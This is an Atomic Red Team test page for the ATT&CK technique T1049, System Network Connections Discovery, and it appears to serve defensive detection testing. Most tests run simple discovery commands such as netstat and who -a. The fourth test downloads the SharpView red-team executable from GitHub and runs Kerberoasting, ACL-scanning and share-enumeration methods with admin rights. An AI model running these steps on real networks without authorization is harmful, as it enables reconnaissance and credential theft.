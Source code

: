 # T1049 - System Network Connections Discovery

## [Description from ATT&CK](https://attack.mitre.org/techniques/T1049)

<blockquote>Adversaries may attempt to get a listing of network connections to or from the compromised system they are currently accessing or from remote systems by querying for information over the network.

An adversary who gains access to a system that is part of a cloud-based environment may map out Virtual Private Clouds or Virtual Networks in order to determine what systems and services are connected. The actions performed are likely the same types of discovery techniques depending on the operating system, but the resulting information may include details about the networked cloud environment relevant to the adversary's goals. Cloud providers may have different ways in which their virtual networks operate.(Citation: Amazon AWS VPC Guide)(Citation: Microsoft Azure Virtual Network Overview)(Citation: Google VPC Overview) Similarly, adversaries who gain access to network devices may also perform similar discovery activities to gather information about connected systems and services.

Utilities and commands that acquire this information include [netstat](https://attack.mitre.org/software/S0104), "net use," and "net session" with [Net](https://attack.mitre.org/software/S0039). In Mac and Linux, [netstat](https://attack.mitre.org/software/S0104) and <code>lsof</code> can be used to list current connections. <code>who -a</code> and <code>w</code> can be used to show which users are currently logged in, similar to "net session". Additionally, built-in features native to network devices and [Network Device CLI](https://attack.mitre.org/techniques/T1059/008) may be used (e.g. <code>show ip sockets</code>, <code>show tcp brief</code>).(Citation: US-CERT-TA18-106A)</blockquote>

## Atomic Tests

- [Atomic Test #1 - System Network Connections Discovery](#atomic-test-1---system-network-connections-discovery)

- [Atomic Test #2 - System Network Connections Discovery with PowerShell](#atomic-test-2---system-network-connections-discovery-with-powershell)

- [Atomic Test #3 - System Network Connections Discovery FreeBSD, Linux & MacOS](#atomic-test-3---system-network-connections-discovery-freebsd-linux--macos)

- [Atomic Test #4 - System Discovery using SharpView](#atomic-test-4---system-discovery-using-sharpview)

<br/>

## Atomic Test #1 - System Network Connections Discovery

Get a listing of network connections.

Upon successful execution, cmd.exe will execute `netstat`, `net use` and `net sessions`. Results will output via stdout.

**Supported Platforms:** Windows

**auto_generated_guid:** 0940a971-809a-48f1-9c4d-b1d785e96ee5

#### Attack Commands: Run with `command_prompt`!

```cmd
netstat
net use
net sessions
```

<br/>
<br/>

## Atomic Test #2 - System Network Connections Discovery with PowerShell

Get a listing of network connections.

Upon successful execution, powershell.exe will execute `get-NetTCPConnection`. Results will output via stdout.

**Supported Platforms:** Windows

**auto_generated_guid:** f069f0f1-baad-4831-aa2b-eddac4baac4a

#### Attack Commands: Run with `powershell`!

```powershell
Get-NetTCPConnection
```

<br/>
<br/>

## Atomic Test #3 - System Network Connections Discovery FreeBSD, Linux & MacOS

Get a listing of network connections.

Upon successful execution, sh will execute `netstat` and `who -a`. Results will output via stdout.

**Supported Platforms:** Linux, macOS

**auto_generated_guid:** 9ae28d3f-190f-4fa0-b023-c7bd3e0eabf2

#### Attack Commands: Run with `sh`!

```sh
netstat
who -a
```

#### Dependencies: Run with `sh`!

##### Description: Check if netstat command exists on the machine

##### Check Prereq Commands:

```sh
if [ -x "$(command -v netstat)" ]; then exit 0; else exit 1; fi;
```

##### Get Prereq Commands:

```sh
echo "Install netstat on the machine."; exit 1;
```

<br/>
<br/>

## Atomic Test #4 - System Discovery using SharpView

Get a listing of network connections, domains, domain users, and etc.  
sharpview.exe located in the bin folder, an opensource red-team tool.
Upon successful execution, cmd.exe will execute sharpview.exe <method>. Results will output via stdout.

**Supported Platforms:** Windows

**auto_generated_guid:** 96f974bb-a0da-4d87-a744-ff33e73367e9

#### Inputs:

| Name          | Description                                                                                                        | Type   | Default Value                                                                                                            |
| ------------- | ------------------------------------------------------------------------------------------------------------------ | ------ | ------------------------------------------------------------------------------------------------------------------------ |
| SharpView_url | sharpview download URL                                                                                             | url    | https://github.com/tevora-threat/SharpView/blob/b60456286b41bb055ee7bc2a14d645410cca9b74/Compiled/SharpView.exe?raw=true |
| SharpView     | Path of the executable opensource redteam tool used for the performing this atomic.                                | path   | PathToAtomicsFolder&#92;..&#92;ExternalPayloads&#92;SharpView.exe                                                        |
| syntax        | Arguements method used along with SharpView to get listing of network connections, domains, domain users, and etc. | string | "Invoke-ACLScanner", "Invoke-Kerberoast", "Find-DomainShare"                                                             |

#### Attack Commands: Run with `powershell`! Elevation Required (e.g. root or admin)

```powershell
$syntaxList = #{syntax}
foreach ($syntax in $syntaxList) {
#{SharpView} $syntax -}
```

#### Dependencies: Run with `powershell`!

##### Description: Sharpview.exe must exist on disk at specified location (#{SharpView})

##### Check Prereq Commands:

```powershell
if (Test-Path "#{SharpView}") {exit 0} else {exit 1}
```

##### Get Prereq Commands:

```powershell
New-Item -Type Directory (split-path "#{SharpView}") -ErrorAction ignore | Out-Null
Invoke-WebRequest #{SharpView_url} -OutFile "#{SharpView}"
```

<br/>
